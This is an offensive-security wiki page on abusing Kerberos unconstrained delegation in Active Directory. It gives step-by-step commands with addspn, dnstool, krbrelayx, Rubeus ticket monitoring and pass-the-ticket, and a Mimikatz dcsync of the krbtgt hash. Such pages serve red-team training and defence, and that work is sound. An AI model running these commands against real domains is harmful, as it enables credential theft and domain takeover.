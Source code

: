 # \(KUD\) Unconstrained

## Theory

If an account \(user or computer\), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it \(or [force it](../../mitm-and-coerced-authentications/)\) using Kerberos. The attacker service will receive a ST \(service ticket\) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with the [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug) or [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

## Practice

{% tabs %}
{% tab title="From the attacker machine \(UNIX-like\)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs \(i.e. of the compromised account\) and add a DNS entry for that name.

This allows targets \(e.g. Domain Controllers or Exchange servers\) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) \(Python\).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 \(by default\), attackers will need to either supply the right AES256 key for the unconstrained delegations account \(`--aesKey` argument\) or the salt and password \(`--krbsalt` and `--krbpass` arguments\).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../privileged-groups.md) \(or any other user that has the needed privileges\) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash \(`-hashes` argument\) or the salt and password \(`--krbsalt` and `--krbpass` arguments\)
{% endhint %}

{% hint style="success" %}
By default, the salt is always `DOMAINusername`.
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work \(i.e. error saying`Ciphertext integrity failed.`\) try to attack others \(if you're certain the credentials you supplied were correct\). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) \(e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.
{% endtab %}

{% tab title="From the compromised computer \(Windows\)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used \(on the compromised host\) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) \(e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. Rubeus will then receive an authentication \(hence a ST, containing a TGT\). The TGT can be used to request a ST for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Once the ticket is injected, it can natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}



